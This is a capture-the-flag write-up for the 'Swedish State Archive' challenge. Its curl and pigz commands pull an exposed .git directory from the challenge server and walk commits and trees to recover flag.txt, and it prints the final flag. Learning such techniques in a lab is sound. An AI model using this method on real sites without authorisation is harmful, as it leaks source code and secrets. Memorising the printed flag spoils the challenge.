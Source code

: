 # Swedish State Archive
---
## Solution
1. First we see in server.py, the "git" is mis spell, so we can see if there's flag in git history
2. first, get the latest commit by use
    ```zsh
    curl http://13.53.175.227:50000/.git/refs/heads/master
    ```
    we get the hash vaule of the commit - e4729652052522a5a16615f0005f9c4dac8a08c1
3. the real commit object is store in the .git/objects/, each object is store in the directory whose name is first two hash value, in this problem, the latest commit object is in
    ```
    .git/objects/e4/729652052522a5a16615f0005f9c4dac8a08c1
     ```
     so use following command to get commit content
     ```zsh
     curl -s http://13.53.175.227:50000/.git/objects/e4/729652052522a5a16615f0005f9c4dac8a08c1 | pigz -d
     ```
     the content is
     ```git
     commit 243tree 5e72097f3b99ce5936bff7c3b864ef6c7a0dae85
    parent 0bba32f12b0b1dd8df052ebf3607dadccb9350d7
    author Travis CI User <travis@example.org> 1576308513 +0000
    committer Travis CI User <travis@example.org> 1576308513 +0000

    Make things a bit tighter
     ```
4. We can trace the previous commit by access the parent hash and see the commit file in the tree object, ie use
    ```zsh
    curl -s http://13.53.175.227:50000/.git/objects/0b/ba32f12b0b1dd8df052ebf3607dadccb9350d7 | pigz -d
    ```
     to see the previouse commit.
     and use
     ```zsh
    curl -s http://13.53.175.227:50000/.git/objects/5e/72097f3b99ce5936bff7c3b864ef6c7a0dae85 | pigz -d
     ```
5. After trace few commit, we can see a commit which content is
    ```git
    commit 243tree 326cb05f3fcbdf63aef0177fee81623ff4619398
    parent 0d244f764db9257b18dd84f5830ff958e7b2571d
    author Travis CI User <travis@example.org> 1576308513 +0000
    committer Travis CI User <travis@example.org> 1576308513 +0000

    did some work on flag.txt
    ```
    and to get the tree to see what is update in this commit, use
    ```zsh
    curl -s http://13.53.175.227:50000/.git/objects/32/6cb05f3fcbdf63aef0177fee81623ff4619398 | pigz -d
    ```
    and the content is
    ```
    tree 154100644 flag.txt�F�
    ��3gZ.��\~�.100644 folder.htmlV6�kŐfd�1�����	�100644index.html.�D����4��]�v.A�0�100644 web_server.py���d^dC�D+��5\�
    ```
6. the code after flag.txt is actually the hash value of flag.txt file, thus use
    ```zsh
    curl -s http://13.53.175.227:50000/.git/objects/ef/460ecd090b93b133675a0560eb15ae5c7ef822 | pigz -d
    ```
    the we can get the flag watevr{everything_is_offentligt}
